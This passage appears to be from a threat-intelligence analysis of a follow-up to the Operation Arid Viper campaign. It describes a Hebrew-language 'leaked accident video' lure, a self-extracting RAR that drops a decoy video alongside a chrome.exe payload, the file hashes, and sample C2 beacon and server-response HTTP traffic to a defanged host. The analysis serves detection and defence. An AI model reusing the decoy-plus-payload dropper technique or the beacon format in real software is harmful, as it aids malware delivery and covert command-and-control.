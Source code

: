 התאונה בכביש // Road accident
וידיו מזעזע דלפ תקשורת // And his shocking leaked to the media
Clicking the linked RAR brings up a prompt to download the file “this.morning.rar” to their computer. (Fig. 1)

Figure 1: Prompt to download RAR to local system
The file “this.morning” is a RAR self-extracting (SFX) archive (cd89897a2b6946a332354e0609c0b8b4). Once downloaded, the user opens the RAR which extracts what appears to be a video file named “this.morning”.

In fact, double-clicking RAR SFX extracts and executes two files contained in this archive:
A non-malicious video file: this.morning.flv (41bf348254b921bbd21350a70f843683)
The malware payload: chrome.exe (2ae0f580728c43b3a3888dfbe76ad689)

In this regard, the infection chain is still similar to that described in the original Operation Arid Viper analysis, but with noticeable changes to the filenames and email lure, among others. The end user will see the promised video, while in the background the malicious “chrome.exe” begins is communication with the command and control (C2) server: in both cases the action is automatic and initiated simply by double-clicking the self-extracting the RAR SFX archive, with no further interaction by the end-user needed. The following is an example of the initial C2 beacon: 

GET /Sounds/sound_q.php?p=—[redacted]. HTTP/1.1

Accept: text/*

User-Agent: AudioDrive

Accept-Language: en-us

Content-Type: application/x-www-form-urlencoded

Host: oowdesign [.] com​

Cache-Control: no-cache
And this is an example of the C2 server response:

HTTP/1.1 200 OK

Server: nginx

Date: Wed, 26 Aug 2015 14:11:52 GMT

Content-Type: text/html

Transfer-Encoding: chunked

Connection: keep-alive

Vary: Accept-Encoding

X-Powered-By: PHP/5.3.29


a


.

yes;

0
The malware payload still uses the type of hard drive and a set of numbers as a unique identifier; for example: VMware-VMwareVirtualSSCSIDisk—[redacted].. Moreover, the malware compile time appears to be quite recent. (Fig. 2)
